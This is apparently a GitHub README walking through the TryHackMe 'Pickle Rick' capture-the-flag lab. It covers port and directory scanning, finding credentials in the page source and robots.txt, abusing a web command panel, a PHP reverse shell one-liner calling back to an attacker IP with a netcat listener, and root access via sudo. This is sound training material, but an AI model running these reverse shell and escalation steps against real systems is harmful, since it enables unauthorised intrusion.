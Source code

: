 # Pickle Rick
#### A Rick and Morty CTF. Help turn Rick back into a human!
TryHackMe: [Pickle Rick CTF Link](https://tryhackme.com/room/picklerick)
Tools: Nmap, Nikto, Dirbuster, Bash/Python Reverse Shell, and Popcorn

---
## Preparation 
![IMG1](Images/img1.png "Figure-1")  
![IMG2](Images/img2.png "Figure-2") 

If you are using your own machine continue below otherwise launch your machine and skip to Scanning
First step is to open your favorite text editor (sublime,notepad++,onenote, etc). Copy and paste the question. 
Find your ip address by going to `ip address| grep inet` take a note of it or save it into a variable `export $IP=[your ip here]`.


## Scanning and Enumeration
![IMG3](Images/img3.png "Figure-3") 

To begin you are giving an IP address to go to. Launching it you will see a website, we can see that the message on the web is asking to look for a password. So with this knowledge we need to look for login credentials and a login portal. 

*Note: Replace $Attack_IP with the target ip* 
Lets go ahead and run an nmap scan, I run a simple nmap scan but you can run with any parameter you like.
`nmap -A -sT $Attack_IP` 

![IMG4](Images/img4.png "Figure-4") 

After few seconds we can see two ports that are open 80(http) and 22(ssh). Now we will scan for more and see what else we ccan find. Lets run nikto and dirbuster at the same time on two different terminal.
`nikto -h $Attack_IP` `dirb http://$Attack_IP`

![IMG5](Images/img5.png "Figure-5") 

Quite interesting, we find a robot.txt during from our dirbuster scanning, and we were able to find out how to get into the login portal. 

Now that we done with scanning and enumeration we can now head back to the webpage.

## Discovery

Now you are at the webpage, lets take a look and see what else we can find. Go ahead and view the page source. 

What do we have here, looks like we found the first part of the credentail which is the username. Where could the password be? Lets go ahead and go to the login portal.
Which earlier we found it was at login.php -> http://$Attack_IP/login.php.

Okay so we have the username but still don't have the password. Earlier we found a robot.txt, looking up we know the this text file control which pages or directories are indexed by search engines.
Opening it, `http://$Attack_IP/robots.txt`, we found something that is related to the Ricky and Morty show (for those who watch the series). This could possibly be the password since there is a relation to the entire theme (username and webpage itself.

Entering the credentials we have now gain access to the portal. 

## Finding the secret
![IMG6](Images/img6.png "Figure-6") 

Now that we are in, lets browse around. From here we can only see that the command panel is the only revelant thing we can do. With a simple `ls` command we can see a list of files in here. 
HEY LOOK! There is one of the secret ingredient. Trying to use commands to open the text is a no go. So how do we do it. There are three ways:

![IMG7](Images/img7.png "Figure-7") 

```c
First Option: Using grep command. We can recursively grab everything. Command: grep -R .
Second Option: We can type it in our url http://$Attack_IP/Sup3rS3cretPickl3Ingred.txt
Third Option: Using a reverse shell we will try to gain access and navigate through their system.
```
You can pick whichever option. If you chosen the first option, you can view the page source of what you find. You will find not really an easter egg but a base64 code. Which you will have to base64 it over and over only until you get a hidden message. <br>
Second option will tell you the answer and thats it.<br>
However the third option would be more beneficial as it will help us gain access to the 2nd and 3rd ingredients. 

## Reverse Shell
*Note: You do not have to do a reverse shell in order to get the 2nd and 3rd ingredients, which I have found out a bit of playing around using the less command. However it makes it a bit harder for me, so reverse shell makes it easier to navigate.*

You can do a reverse shell of your choice, if you do not know where or how to create a reverse shell here is the link to one: [Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
I found that the php reverse shell script worked fine after modifying the IP and/or port number.

`php -r '$sock=fsockopen("10.10.151.177",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`<br>
*Note: You may have to use python3 instead of python if it doesn't work*

![IMG8](Images/img8.png "Figure-8") 

Now copy and paste into the Command box, but do not execute it just yet. Next open a terminal and launch a netcat listener `nc -lvnp 4242`, my port number is 4242 yours could be different if you changed it.

Now we are in, at this point if you were to do `pwd` you find that we are in \var\www\html. We will want to go to the root directory. So go ahead and cd to \. 

![IMG9](Images/img9.png "Figure-9") 

Then you want to `ls -la` to see all the folder/files/directory. Go ahead and browser around. You will find that the /home directory has a user in it call 'Rick', going into this directory, if we type `ls`, we see the second ingredient. Go ahead and open it and now its time to find the last ingredient. 

## Escalation Priviledge
At this point we have browse everywhere to find the third ingredient, however there is one place we cannot get into which is root. So we need to be the root user. Typing in `sudo -l` we try to see if we are root. 
Oh no it does not work. What about `sudo su`? Yes it works, using `whoami` I can see that I am root.

![IMG10](Images/img10.png "Figure-10") 

Now we will go into the root directory and we can see the third text file. Looking into it we got our last ingredient.

# We have completed the Ricky and Morty Room!
